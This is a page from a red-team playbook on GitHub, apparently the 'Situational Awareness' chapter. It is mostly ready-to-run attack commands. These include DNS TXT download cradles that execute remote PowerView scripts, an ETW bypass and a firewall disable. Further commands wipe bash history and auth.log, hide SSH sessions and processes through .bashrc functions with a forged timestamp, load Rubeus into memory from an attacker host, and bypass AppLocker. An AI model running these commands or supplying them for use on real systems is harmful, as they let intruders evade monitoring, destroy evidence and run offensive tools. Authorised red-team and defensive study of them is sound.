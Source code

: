 # 5.2 Situational Awareness

## Table of Contents

- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Avoid-Invoke-Expression-IEX-and-Invoke-WebRequest-IWR)
- [Bypassing Event Tracing for Windows (ETW)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Bypassing-Event-Tracing-for-Windows-ETW)
- [Clear Linux History](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Clear-Linux-History)
- [Hiding SSH Sessions](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Hiding-SSH-Sessions)
- [Host-based Firewall Settings](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Host-based-Firewall-Settings)
- [Logfile Cleaning](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Logfile-Cleaning)
- [LOLBAS](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#LOLBAS)
- [.Net Reflection](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Net-Reflection)
- [Process Hiding](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Process-Hiding)
- [ProxyChains](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#ProxyChains)
- [Save File Deletion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Save-File-Deletion)
- [System Monitor (Sysmon)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#System-Monitor-Sysmon)
- [Windows Advanced Threat Protection (ATP)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Windows-Advanced-Threat-Protection-ATP)

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/bypass.png">
</p>

### Concatinate Payloads

```c
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## Bypassing Event Tracing for Windows (ETW)

```c
C:\> set COMPlus_ETWEnabled=0
```

## Clear Linux History

```c
* echo "" > /var/log/auth.log
* echo "" > ~/.bash_history
* rm ~/.bash_history
* history -c
* export HISTFILESIZE=0
* export HISTSIZE=0
* kill -9 $$
* ln /dev/null ~/.bash_history -sf
* ln -sf /dev/null ~/.bash_history && history -c && exit
```

## Hiding SSH Sessions

```c
$ ssh -o UserKnownHostsFile=/dev/null -T <USER>@<RHOST> 'bash -i'
```

- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Host-based Firewall Settings

Checking if the firewall is enabled.

```c
PS C:\> Get-NetFirewallProfile | Format-Table Name, Enabled
```

Checking the current firewall ruleset.

```c
PS C:\> Get-NetFirewallRule | select DisplayName, Enabled, Description
```

With local `administrative privileges` the rules can be modified.

```c
PS C:\> Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
PS C:\> Get-NetFirewallProfile | Format-Table Name, Enabled
```

Test connections.

```c
PS C:\> Test-NetConnection -ComputerName 127.0.0.1 -Port 80
```

## Logfile Cleaning

```c
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## LOLBAS

### AppLocker Bypass

`<FILE>.url`:

```c
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```c
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Port Forwarding with netsh

```c
C:\> netsh interface portproxy add v4tov4 listenaddress=<RHOST> listenport=<RPORT> connectaddress=<LHOST> connectport=<LPORT>
```

## .Net Reflection

```c
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Process Hiding

```c
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## ProxyChains

> https://github.com/haad/proxychains

```c
$ proxychains <APPLICATION>
```

### Configuration

```c
socks4 metasploit
socks5 ssh
```

## Save File Deletion

```c
$ shred -z <FILE>
```

Alternatively:

```c
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## System Monitor (Sysmon)

Checking if `Sysmon` is running.

```c
PS C:\> Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }
PS C:\> Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
PS C:\> Get-Service | where-object {$_.DisplayName -like "*sysm*"}
```

This could also be achieved by querying the `registry`.

```c
PS C:\> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
```

Checking exclusions for `Sysmon`.

```c
PS C:\> findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```c
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```c
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```c
C:\> tasklist | findstr /i mssense.exe
```

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)

### Next

- [6 Command-and-Control](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/6-Command-and-Control/6-Command-and-Control.md)
